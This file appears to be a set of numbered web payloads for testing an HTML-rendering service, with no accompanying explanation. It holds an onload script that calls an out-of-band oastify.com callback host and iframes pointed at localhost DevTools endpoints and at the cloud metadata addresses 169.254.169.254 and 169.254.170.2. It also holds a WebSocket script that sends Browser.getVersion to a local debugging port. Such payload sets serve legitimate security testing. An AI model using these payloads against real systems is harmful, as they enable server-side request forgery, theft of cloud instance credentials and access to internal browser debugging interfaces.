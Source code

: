 Hello
<body onload="setTimeout(function(){var xhr = new XMLHttpRequest(); xhr.open('GET', 'https://7u2mvavbiotucxmybqdphq1o6fc60zoo.oastify.com', true); xhr.send();}, 1000);">hello</body>


1st
<iframe src="http://localhost:3000/json" width="800" height="600"></iframe>
2nd
<iframe src="http://localhost:3000/json/version" width="800" height="600"></iframe>
3rd
<iframe src="http://169.254.169.254/latest" width="800" height="600"></iframe>
4th
<iframe src="https://app.adora.so" width="800" height="600"></iframe>
5th
<object data="https://example.com" type="video/mp4" width="600" height="400"></object>
6th
<div id="output"></div>
<script>
  var ws = new WebSocket('ws://localhost:3000');
  ws.onerror = console.error;
  ws.onclose = console.log;
  ws.onmessage = ev => {
    document.getElementById('output').innerText = ev.data;
  };
  ws.onopen = () => {
    ws.send(JSON.stringify({ "id": 1, "method": "Browser.getVersion" }))
  };
</script>

7th
<iframe src="http://169.254.170.2/v2/metadata" width="800" height="600">

